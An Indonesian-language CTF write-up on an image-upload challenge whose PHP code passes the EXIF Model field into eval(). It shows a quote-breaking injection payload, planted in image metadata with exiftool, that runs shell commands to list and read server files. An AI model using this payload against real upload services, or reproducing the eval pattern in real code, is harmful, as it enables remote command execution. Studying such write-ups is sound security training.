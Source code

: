 # Write up 

## Task detail

Main main yuk
http://128.199.226.249/eat/

Source:
https://github.com/nikkoenggaliano/Badimageupload



## Problem

Diberikan sebuah halaman web dengan tampilan seperti ini.



![](/Badimageupload/src/1.png)



Seperti upload file gambar biasa dengan validasi yang hanya membolehkan mengupload file dengan exstensi [jpg, jpeg] Menurut source `index.php` yang diberikan sebagai berikut.



```php
$allowed = array('jpg', 'jpeg');
$path = pathinfo($_FILES['flag']['name']);
$ext = strtolower($path['extension']);
		
//verify ext
if(!in_array($ext, $allowed)){
	die('Just allowed jpg/jpeg');
}
```



Validasi yang lain hanya mengecek besar file yang tidak boleh lebih dari 2Mb dan gambar yang diupload harus memiliki lebar dan tinggi.



```php
//verify size
if($_FILES['flag']['size'] > 2000000){
	die('Sorry just allowed less than 2 Mb');
}

//verify image
$data = getimagesize(realpath($_FILES['flag']['tmp_name']));
$width = $data[0];
$height = $data[1];
if(empty($width) || empty($height)){
    die('Please upload image!');
}
```



Oke secara simple hanya boleh mengupload gambar asli. Mari kita coba.



![](/Badimageupload/src/2.png)



Setelah mengupload gambar yang kita upload akan di tampilkan lagi dengan keterangan `waktu` `height` dan `width` 

Mari lihat ke source `render.php` 



```php
$read = exif_read_data($nama);	
if(isset($read['Model'])){
	$model .= (string) $read['Model'];	
}else{
	$model .= "Hacker";
}
$height = $read['COMPUTED']['Height'];
$width = $read['COMPUTED']['Width'];
$epoch = date('Y-M-D H:i:s',$read['FileDateTime']);
}

```



Oke pada variable `$read` memangil fungsi read exif data, Kemudian ada sebuah pengecekan apakah ada exif data model jika tidak akan diisi dengan `Hacker` Selanjutnya hanya memparsing exif `waktu` `height` dan `width`. 



## Bugs

Pada proses pemanggilan variable hasil exif ada yang paling menarik sebagai berikut.



```php+HTML
<h4 class="media-heading"> Hey <?php echo(eval("print '$model';")) ?></h4>
```



Variable `$model` di print menggunakan `eval()` Hmm, Meskipun `eval` dapat diisi dengan hal hal seperti fungsi php atau shell ada yang menyebabkan sedikit tricky untuk menginjectnya. Karena didalam eval terdapat kutip yang cukup tricky juga.



## Exploitasion

Sebelum memikirkan bagaimana menginject kodenya kedalam gambar, Mari kita experimen dulu bagaimana menginject payload kedalam eval tersebut.



```php
<?php 
$model = "shell_exec('whoami')";
echo(eval("print '$model';"));
```



Asusmsi saya dengan seperti itu bisa tereksekusi. Ternyata tidakkk!  Dan payload yang saya rancang akhirnya bentuknya seperti ini.=

`';echo shell_exec('whoami');//` Oke sedikit saya explain.



1. Kutip dan semicolon `';`  diawal akan membuat kode berbentuk menjadi seperti ini
   -  echo(eval("print ''; ")) ;
2.  echo shell_exec('whoami'); akan menjadi syntax baru di dalam eval menjadi seperti ini
   - echo(eval("print ''; echo shell_exec('whoami'); ")) ;
3.  // pada akhir akan membuat syntax kebelakan menjadi comenting atau tidak dianggap
   - echo(eval("print ''; echo shell_exec('whoami');// ")); 



## Development the payload 

Kita bisa mengisi exif data dengan tools exiftools di unix kalian bisa menginstall dengan `sudo apt install libimage-exiftool-perl`



Selanjutnya mengisi gambar dengan payload.



```bash
$ exiftool -model="';echo shell_exec('ls');//" 851368_1.jpg
    1 image files updated
$
```



Kita mengisi data model dengan payload `ls` dan hasilnya.



![](/Badimageupload/src/3.png)



Okey terlihat setelah `Hey` ada file file, Yang paling menarik adalah `wwwwwwwwrite.php ` mari kita dapatkan sourcenya.



```bash
$ exiftool -model="';echo shell_exec('cat wwwwwwwwrite.php ');/
/" 851368_1.jpg
    1 image files updated
$
```



Dan didapatkan hasil sebagai berikut.



```php
<?php 
$data = $_GET['hack'];
$buka = fopen("solver.txt", "a+");
fwrite($buka, $data."\n");
fclose($buka);
?>
```



Ternyata pada file ini kita bisa menuliskan nama kita :D 



```sh
$ curl 128.199.226.249/wwwwwwwwrite.php?hack=Nepska
```



Terima Kasih!
